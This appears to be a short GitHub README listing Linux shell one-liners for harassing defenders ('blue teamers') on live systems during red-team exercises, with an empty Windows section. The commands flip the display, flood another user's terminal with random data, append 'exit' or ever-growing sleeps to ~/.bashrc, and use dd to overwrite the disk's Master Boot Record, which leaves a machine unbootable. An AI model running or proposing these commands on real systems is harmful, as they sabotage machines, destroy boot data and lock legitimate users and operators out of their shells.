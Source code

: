 A small collection of tactics to mess with blue teamers in live environments...

# Linux

```shell
xrandr -o inverted # Flip X11 desktop session upside down.

dd if=nyan.mbr of=/dev/sda # NyanMBR necessary, overwrites Master Boot Recrd with Nyancat animation

echo exit >> ~/.bashrc # Add a logout to the login script

cat /dev/urandom > /dev/pts/<#> # Fill terminal with random noise spewing out at high speed.

echo "echo "sleep 1;" >> ~/.bashrc">> ~/.bashrc # Add a longer sleep to their terminal startup every time they login. 


```

# Windows

